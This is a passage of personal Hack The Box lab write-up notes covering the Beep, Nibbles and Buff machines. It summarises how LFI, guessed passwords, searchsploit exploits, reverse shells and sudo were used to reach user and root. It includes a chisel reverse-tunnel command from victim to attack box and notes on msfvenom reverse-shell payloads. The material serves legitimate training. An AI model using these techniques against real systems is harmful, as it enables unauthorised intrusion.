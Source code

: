 Root: reverse shell runs as root.

- what I learnt

1. if you stucked, buster the dir with common file extension (txt, php, pl, py, etc)

### Beep

- short write-ups

User: the webapp `elastix` had a LFI CVE. Use it to extract the config file. It contains the root passwd for ssh.

Root: reverse shell runs as root.

btw, other ways are possible for this machine. For example, this machine is vulnerable to shellshock.

### Nibbles

- short write-ups

User: find nibbleblog and its admin panel. `guess` the password `nibbles` and login as admin (lol). Use CVE to get shell.

Root: user could run all command as root using sudo.

- what I learnt

1. Often, if HTB wants you to guess passwords, it is usually machine name, `password`, `admin`.

### Buff

- short write-ups

User: The website uses unpatched framework. Use script from searchsploit to get shell.

Root: Find there is a vulnerable service `CloudMe`. Use script from searchsploit to get shell.

- what I learnt

1. if the target don't have ssh and you need a tunnel, `chisel` is a good choice.
    Simple usage: 
    ```bash
    server(attack box): ./chisel server -p 8000 --reverse
    client(victim box): ./chisel client 10.10.14.20:8000 R:port:localhost:port
    ```

2. Use `netstat -an` to see the open ports and use `tasklist /v | findstr <portnumber>` to check the process using the port

3. About `msfvenom` payloads: `windows/meterpreter_reverse_tcp` is a quite large reverse shell, while ` windows/meterpreter/reverse_tcp` contains just enough code to connect back to the attacker.

4. If you want to check the privilege of one process, you can use [accesschk](https://docs.microsoft.com/en-us/sysinternals/downloads/accesschk).

### Bank
